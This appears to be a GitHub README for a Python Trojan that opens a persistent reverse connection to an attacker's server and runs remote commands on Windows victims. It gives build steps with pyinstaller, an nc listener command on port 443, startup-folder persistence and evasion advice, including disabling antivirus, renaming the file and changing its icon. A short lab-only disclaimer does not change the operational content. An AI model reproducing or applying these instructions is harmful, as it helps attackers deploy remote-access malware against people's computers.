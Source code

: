 # Python Trojan

## Overview
This is a basic Trojan written in Python that establishes a persistent connection with a remote server, listens for commands, and executes them on the infected machine. It autoruns by copying itself to the Windows startup folder and continuously tries to reconnect if the connection is lost. The script uses threading to execute commands concurrently.

## Features
- Persistent connection attempts to the attacker's server.
- Remote command execution.
- Multi-threaded execution to handle commands asynchronously.

## Usage
1. Modify the IP (and, optionally, the port) of the code as needed.
   
2. Install the pyinstall library that will be used to generate the executable file:

   ```
   pip install pyinstall
   ```

4. Generate the executable:

   ```
   pyinstaller -F --clean -w trojan.py
   ```

Note: the file name can also be changed, as well as the icon. 

4. The attacker must leave a port listening on his machine to receive the connection:
   
   ```
   nc -lvp 443
   ```
   When connected, you will see something like:
   
   ```
   listening on [any] 443 ...
   10.0.2.4: inverse host lookup failed: Unknown host
   ```

Once the connection is received, the attacker will have persistent access to the victim's machine, thanks to the `autorun()` function, which ensures that the program is executed automatically whenever the system is started.


## Security Notice
Use this script only in controlled environments such as penetration testing labs, with explicit permission. Misuse of this tool for unauthorized access to systems is illegal and may result in severe consequences. **The risk is yours**.

## Observations
- The program has **low detectability** by antivirus software when first run. However, there is a possibility that the antivirus may detect suspicious activity during the creation of the executable. To minimize this risk, it is recommended to **disable the antivirus and firewall** while generating the executable. Additionally, over time, the antivirus may eventually recognize the executable as malicious.
- There is a risk that the victim may find the trojan in the **Task Manager**. If that happens, there’s nothing to do except attempt the connection again.
- Obviously, the victim must run the Trojan on **Windows**.

